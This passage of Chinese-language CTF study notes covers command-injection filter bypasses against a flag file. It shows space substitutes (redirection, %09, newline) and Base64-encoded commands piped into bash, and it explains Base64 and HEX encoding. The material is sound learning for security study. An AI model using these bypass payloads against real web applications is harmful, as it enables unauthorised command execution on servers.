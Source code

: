 ```PHP
cat<>flag.txt
cat<flag.txt
```

- **%09(需要****php****环境)**

php环境下web输入%09等效于空格

```PHP
cat%09flag.txt
```

- **`%0a`****换行符**

#### 编码绕过

#### Base64

> 什么是 Base64 编码？
>
> Base64 编码是一种基于 64 个可打印字符来表示二进制数据的编码方式。它常用于在需要以文本形式传输或存储二进制数据的场景中，比如电子邮件、URL 参数、网络传输等。
>
> ------
>
> **Base64 编码的特点**
>
> 1. **字符集**： Base64 使用以下 64 个字符作为编码表：
>    1. **字母**：`A-Z`、`a-z`（共 52 个字符）
>    2. **数字**：`0-9`（共 10 个字符）
>    3. **两个符号**：`+` 和 `/`（共 2 个字符）
>    4. **填充符**：`=`（用于填充不足 3 字节的数据）
> 2. **数据块划分**：
>    1. Base64 将输入数据按 3 字节（24 位）为一组处理，每组被分成 4 个 6 位的块。
>    2. 每个 6 位的块被映射到 Base64 的编码字符集中。
> 3. **数据增长**：
>    1. Base64 编码会使数据膨胀，编码后的数据长度约为原始数据的 **4/3**。
>    2. 如果原始数据长度不是 3 的倍数，Base64 会使用填充符 `=` 补齐。

```PHP
echo xxxx|base64 -d|bash
```

使用反引号包含base64解码后的命令

```PHP
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d
```

将base64解码后的命令通过管道符传递给bash

```PHP
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
```

#### HEX编码

> HEX 编码（十六进制编码）是一种使用十六进制数字（`0-9` 和 `A-F`）来表示数据的编码方式。它将二进制数据转化为十六进制字符串，以方便存储、传输和显示。
